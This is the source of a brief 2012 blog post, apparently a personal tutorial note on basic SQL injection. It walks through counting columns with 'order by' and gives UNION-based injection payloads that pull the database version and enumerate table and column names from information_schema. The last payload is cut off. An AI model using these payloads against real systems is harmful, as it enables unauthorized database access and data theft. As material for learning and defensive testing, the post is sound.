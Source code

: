 ```yaml
---
layout: post
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: sql sql injection
---
```


<p>
{% highlight sql %}
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
{% endhighlight %}


1. FIND NUMBER OF COLUMNS
	"order by" trick - test if you can order by a column number
2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)
	' union select 1,2,3,version() -- -
3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -
  ' union select 1,2,3,column_name from information_schema.columns where table...
</p>
